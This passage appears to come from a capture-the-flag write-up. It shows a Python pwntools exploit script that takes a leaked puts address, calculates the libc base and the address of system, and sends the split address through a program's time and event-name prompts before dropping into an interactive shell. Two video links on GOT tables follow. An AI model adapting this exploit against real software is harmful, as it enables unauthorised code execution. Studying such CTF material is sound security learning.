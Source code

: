 ```python

print(f"LEAKED DATA = {data}")

leaked_puts = parse_leaked_address(data)
print(hex(leaked_puts))
libc = ELF("libc.so.6")

print(f"LEAKED puts ADDR {hex(leaked_puts)}")

libc_base = leaked_puts - libc.sym["puts"]
system_addr = libc_base + libc.sym["system"]

print(f"CALCULATED LIBC BASE: {hex(libc_base)}")
print(f"CALCULATED SYSTEM ADDR {hex(system_addr)}")

top_digits = str(hex(system_addr))[2:6]
parsed_digits = bytes.fromhex(top_digits)[::-1]
print(parsed_digits)
bottom_digits = int(str(hex(system_addr))[6:], 16)
print(bottom_digits)

p.recvuntil(b"time? (1-24) ")
p.sendline(str(bottom_digits).encode())

p.recvuntil(b"Event name?")
p.sendline(parsed_digits)

p.interactive()
```
Extra material on GOT tables:

https://www.youtube.com/watch?v=kUk5pw4w0h4

https://www.youtube.com/watch?v=B4-wVdQo040&t=747s
